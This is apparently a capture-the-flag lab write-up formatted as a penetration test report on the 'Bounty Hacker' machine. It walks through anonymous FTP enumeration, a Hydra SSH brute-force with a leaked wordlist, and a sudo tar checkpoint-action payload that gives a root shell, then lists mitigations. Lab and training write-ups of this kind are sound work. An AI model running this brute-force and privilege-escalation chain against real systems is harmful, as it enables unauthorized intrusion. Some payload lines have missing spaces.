





---

# **Penetration Test Report: Bounty Hacker**

---

### **TL;DR**

The target system was fully compromised through a chain of misconfigurations and weak credentials. Initial access was achieved via SSH after brute-forcing credentials discovered through FTP enumeration. Privilege escalation was later performed by exploiting a misconfigured sudo permission allowing execution of `/bin/tar` as root, which was abused using GTFOBins-style argument injection to obtain a root shell.

---

### **Target Information**

- **Target IP:** 10.112.183.159
- **Operating System:** Ubuntu Linux 20.04 LTS
- **Open Ports:**
    - 21/tcp – FTP (vsftpd 3.0.5, anonymous login enabled)
    - 22/tcp – SSH (OpenSSH 8.2p1)
    - 80/tcp – HTTP (Apache 2.4.41)
- **Assessment Type:** Authorized lab environment

---

### **Executive Summary**

The assessment revealed multiple security weaknesses across exposed services, including anonymous FTP access, weak credential reuse, and insecure sudo configuration.

The attack began with FTP enumeration, where sensitive files were retrieved containing a password list and a possible username. This information enabled a successful brute-force attack against SSH, granting initial shell access.

Post-exploitation enumeration identified a misconfigured sudo rule allowing the user to execute `/bin/tar` as root. This configuration was abused using tar’s checkpoint functionality to execute arbitrary commands as root, resulting in full system compromise.

**Key Findings:**

| Finding | Severity | Impact |
| --- | --- | --- |
| Anonymous FTP Access with Sensitive Files | High | Exposure of credentials and internal notes |
| Weak SSH Credentials | Critical | Initial system compromise |
| Insecure sudo configuration (/bin/tar as root) | Critical | Full privilege escalation to root |
| Lack of service hardening | Medium | Increased attack surface |

---

### **Scope and Methodology**

**Scope:**

- **Target:** 10.112.183.159
- **Application:** Bounty Hacker
- **Ports/Protocols in Scope:**
    - FTP (21/tcp)
    - SSH (22/tcp)
    - HTTP (80/tcp)

**Methodology:**

The assessment followed a structured penetration testing methodology:

1. **Reconnaissance & Enumeration:** nmap scanning and service identification, anonymous FTP discovery, web application review
2. **Vulnerability Analysis:** analysis of FTP files for sensitive data, credential discovery and reuse assessment, identification of exploitation vectors
3. **Exploitation:** brute-force attack against SSH using discovered password list, authentication as valid user account
4. **Post-Exploitation & Privilege Escalation:** local enumeration using `sudo -l` , identification of misconfigured sudo rule, exploitation via GTFOBins-style tar abuse
5. **Documentation:** evidence collection, attack chain reconstruction, impact assessment

---

### **Findings and Exploitation**

**Vulnerability Summary**

The system exposed anonymous FTP access which contained sensitive files including a password list and username hints. This enabled a successful SSH brute-force attack.

The HTTP service did not contribute to the attack chain and was informational only.

**Technical Walkthrough**

1. **Initial Reconnaissance**

    A full TCP scan identified three exposed services:

    - FTP (anonymous access enabled)
    - SSH
    - HTTP (static site)


    ```bash
    nmap -sS -sV -sC -T4 -O -oA initial_nmap_scan $ip
    ```


    

2. **FTP Anonymous Access & Data Exposure**

    ```bash
    ftp 10.112.183.159
    ```


    Anonymous FTP login was successful, revealing:

    - `locks.txt` → password wordlist
    - `task.txt` → username hint (`lin`)


    

    These files enabled credential-based attacks against SSH.

3. **SSH Credential Brute Force**

    Using Hydra and the exposed password list:

    ```
    hydra -l lin -P locks.txt 10.112.183.159 ssh
    ```


    

    Successful credentials:

    - **Username:** lin
    - **Password:** Re********cat3

    SSH access was successfully obtained.

4. **HTTP Service Assessment**

    The web application consisted of a static themed page. No authentication mechanisms, input fields, or exploitable functionality were identified.

    **Conclusion:** The HTTP service was informational and did not contribute to the attack path.

---

### **Post-Exploitation & Privilege Escalation**

**Vulnerability Summary**

The privilege escalation was possible due to insecure sudo configuration allowing execution of `/bin/tar` as root. Tar supports command execution via checkpoint features, which can be abused when elevated privileges are granted.

**Technical Walkthrough**

1. **Privilege Escalation Enumeration**

    Post-authentication enumeration revealed sudo permissions:

    

    ```bash
    User lin may run the following commands:
    (root) /bin/tar
    ```

    This indicated that `tar` could be executed as root, presenting a privilege escalation opportunity.

2. **Privilege Escalation Exploitation**

    The sudo misconfiguration allowed abuse of tar’s checkpoint functionality to execute arbitrary commands.

    The following payload was used:

    ```bash
    echo"/bin/bash -p" > privesc.sh
    chmod+x privesc.sh

    touch--"--checkpoint=1"
    touch--"--checkpoint-action=exec=sh privesc.sh"

    sudo tar cf archive.tar *
    ```

    This resulted in execution of a root shell.

    Root access confirmed:

    ```bash
    root@ip-10-112-183-159:~#
    ```

    

### **Root Cause**

- Misconfigured sudo rule:
    
    ```bash
    (root) /bin/tar
    ```
    
- Lack of command argument restrictions
- Use of a binary capable of arbitrary command execution

### **Impact**

An attacker with low-privileged access (lin user) can escalate directly to root, leading to:

- Full system compromise
- Access to all sensitive files
- Complete control over the host

### **Mitigation**

- Avoid allowing `tar` (or similar utilities) to run with root privileges via sudo.
- Implement least privilege principle for sudo rules.
- Replace broad sudo permissions with explicit command restrictions.
- Monitor and restrict binaries capable of command execution (tar, vim, awk, python, etc.).
- Regularly audit sudoers file for misconfigurations.

---

### **Risk Assessment**

| Finding | Description | Likelihood | Impact | Risk Rating |
| --- | --- | --- | --- | --- |
| Anonymous FTP Access | Exposed sensitive files | High | High | High |
| Weak SSH Credentials | Easily guessable password | High | Critical | Critical |
| Sudo Misconfiguration (tar) | Privilege escalation vector | High | Critical | Critical |

---

### **Risk Factor Analysis**

| Risk Factor | Analysis |
| --- | --- |
| Attack Complexity | Low |
| Required Privileges | None initially |
| User Interaction | Not required |
| Exploit Availability | Public (GTFOBins technique) |
| Confidentiality Impact | Total compromise |
| Integrity Impact | Total compromise |
| Availability Impact | Total compromise |

---

### **Conclusion**

The Bounty Hacker system was fully compromised through a combination of exposed services, weak credentials, and insecure privilege delegation.

The attack path demonstrates a classic chained exploitation scenario:

1. Anonymous FTP disclosure
2. Credential harvesting
3. SSH brute-force access
4. Misconfigured sudo privilege escalation
5. Root compromise

The most critical issue was the sudo misconfiguration allowing execution of `/bin/tar` as root, which enabled direct privilege escalation.

---

### **Recommendations**

1. Disable anonymous FTP access.
2. Remove sensitive files from publicly accessible FTP directories.
3. Enforce strong password policies and prevent reuse across services.
4. Restrict SSH authentication attempts and implement rate limiting.
5. Apply least privilege principles to sudo configurations.
6. Avoid allowing full binary execution via sudo (especially tar, vim, nano, python, perl).
7. Conduct regular configuration audits.
8. Implement centralized logging and monitoring for privilege escalation attempts.